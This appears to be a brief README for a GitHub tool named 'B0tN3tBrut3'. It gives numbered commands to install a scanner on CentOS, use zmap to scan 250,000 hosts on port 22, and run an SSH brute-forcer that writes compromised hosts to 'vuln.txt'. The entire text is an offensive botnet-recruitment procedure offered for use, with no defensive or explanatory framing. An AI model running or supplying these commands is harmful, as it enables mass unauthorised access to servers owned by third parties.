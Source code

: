 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



   1- sh ScannerInstall.sh         
   
   
   //-// if it asks for [Yes] press enter
   //-// if it asks for [autodetect] press enter


  
    2- sh CentOS_zmap_auto_install.sh

 


    3- chmod 777 * 

    4- zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

         5-   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">
